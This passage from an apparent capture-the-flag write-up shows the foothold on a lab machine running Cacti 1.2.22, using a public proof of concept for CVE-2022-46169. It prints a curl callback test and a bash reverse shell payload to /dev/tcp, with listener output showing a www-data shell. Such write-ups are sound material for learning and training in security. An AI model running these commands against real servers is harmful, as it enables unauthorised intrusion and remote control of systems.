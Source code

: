 ![](Images/cactichangelog.png)

A quick google search shows that cacti 1.2.22 has [a remote command execution vulnerability.](https://nvd.nist.gov/vuln/detail/cve-2022-46169) Utilizing this CVE, we can have remote code execution.
## Foothold
### Utilizing CVE 2022-46169

POC code obtained from [this github repository](https://github.com/sAsPeCt488/CVE-2022-46169)
Testing the POC with a curl command:
```
$ python poc.py -c 'curl 10.10.14.139' http://10.10.11.211
```

On my listener server, I see a hit:
```
$ nc -nvlp 80  
listening on [any] 80 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.211] 39370
GET / HTTP/1.1
Host: 10.10.14.139
User-Agent: curl/7.74.0
Accept: */*
```

Now we can go ahead and try a reverse shell payload:
```
$ python poc.py -c "bash -c 'bash -i >& /dev/tcp/10.10.14.139/8888 0>&1'" http://10.10.11.211
[*] Trying for 1 - 100 host ids
```

Meanwhile on my listener:
```
$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.211] 58858
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ 
```
